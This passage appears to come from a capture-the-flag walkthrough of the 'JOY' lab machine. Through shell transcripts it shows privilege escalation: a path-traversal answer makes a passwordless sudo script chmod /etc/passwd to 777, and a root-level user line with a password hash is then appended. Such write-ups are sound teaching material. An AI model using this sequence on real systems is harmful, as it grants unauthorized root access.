css               index.php  LICENSE         README               site
htaccess_def.txt  js         ossec_conf.php  README.search        tmp
patrick@JOY:/var/www/tryingharderisjoy/ossec$ whoami
whoami
patrick
patrick@JOY:/var/www/tryingharderisjoy/ossec$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:5f:67:33 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.62/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 67567sec preferred_lft 67567sec
    inet6 fe80::20c:29ff:fe5f:6733/64 scope link 
       valid_lft forever preferred_lft forever
patrick@JOY:/var/www/tryingharderisjoy/ossec$ 

```
<br> With sudo -l we can know whether the current user has sudo permissions to execute a file

```
patrick@JOY:/var/www/tryingharderisjoy/ossec$ sudo -l 
sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test
patrick@JOY:/var/www/tryingharderisjoy/ossec$ 
patrick@JOY:~$ ls -al | grep "script"
ls -al | grep "script"
d---------  2 root    root    4096 Jan  9  2019 script
patrick@JOY:~$ 
```

<br>
But here we have no way to directly access the things inside
<br>
Try to access, it turns out to be an interactive sh file
<br>
Make /etc/passwd an editable file directly
<br>

```
patrick@JOY:~$ sudo script/test
sudo script/test
I am practising how to do simple bash scripting!
What file would you like to change permissions within this directory?
../../../../etc/passwd
../../../../etc/passwd
What permissions would you like to set the file to?
777
777
Currently changing file permissions, please wait.
Tidying up...
Done!
patrick@JOY:~$ ls -al /etc/passwd
ls -al /etc/passwd
-rwxrwxrwx 1 root root 2556 Jan 28  2019 /etc/passwd
patrick@JOY:~$ 
```

<br>Next, generate a new password and create a new user

```
patrick@JOY:~$ echo 'aaron:$1$somesalt$rWwI4VdCMoDDJK593phlI.:0:0::/root/bin/bash' >> /etc/passwd
h' >> /etc/passwdmesalt$rWwI4VdCMoDDJK593phlI.:0:0::/root/bin/bash
patrick@JOY:~$ su aaron
# id
id
uid=0(root) gid=0(root) groups=0(root)
# exit
exit
patrick@JOY:~$ su aaron
su aaron
Password: aaron

# id
id
uid=0(root) gid=0(root) groups=0(root)
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:5f:67:33 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.62/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 66268sec preferred_lft 66268sec
    inet6 fe80::20c:29ff:fe5f:6733/64 scope link 
       valid_lft forever preferred_lft forever
# whoami
whoami
root
# /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
root@JOY:/home/patrick# cd /root
cd /root
root@JOY:/root# ls
ls
author-secret.txt      dovecot.crt  dovecot.key     proof.txt	rootCA.pem
document-generator.sh  dovecot.csr  permissions.sh  rootCA.key	rootCA.srl
root@JOY:/root# cat proof.txt
cat proof.txt
Never grant sudo permissions on scripts that perform system functions!
root@JOY:/root# 

```

